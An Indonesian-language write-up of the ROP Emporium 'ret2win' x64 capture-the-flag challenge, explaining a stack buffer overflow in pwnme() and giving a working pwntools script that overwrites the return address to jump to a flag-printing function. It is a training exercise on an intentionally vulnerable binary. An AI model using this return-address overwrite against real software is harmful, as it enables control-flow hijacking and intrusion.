

# ROP Emporium 
## Ret2win (x64)

inti dari soal ini yaitu mengubah alur binary yang tadi nya mengarah ke exit jadi mengarah ke win untuk ngeprint flag
ret2win

"A ret2win is simply a binary where there is a win() function (or equivalent); once you successfully redirect execution there, you complete the challenge."
https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Analisis
kita check binary nya 


no pie -> tidak ada pengacakan address dalam binary
no canary -> tidak ada nya proteksi sebelum return address
nx enabled -> tidak bisa shellcode

selanjutnya cek isi dari binary nya
```
void pwnme(void)

{
  undefined buffeer [32];
  
  memset(buffeer,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,buffeer,0x38);
  puts("Thank you!");
  return;
}
```

bisa kita lihat di fungsi read itu mengambil 0x38(56 byte) dari buffer, sedangkan buffer hanya memuat 32 byte
ini bisa mengakibatkan buffer overflow

arah binarynya gini 
main -> pwnme -> main
kita akan ubah jadi gini
main -> pwnme -> win print flag

ke sini


```
void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

kurang lebih begini exploit nya

```
from pwn import *

context.binary = elf = ELF("./ret2win")
context.terminal = ['xfce4-terminal', '-e']
#context.log_level = 'debug'
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
	p = gdb.debug([elf.path],'''
            b *main
            continue
        ''')
else:
    p = process()

offset = 40
win = 0x0000000000400757

payload = b'A'*offset
payload += p64(win)

p.sendline(payload)
p.interactive()
```

dan ini hasil outputnya 



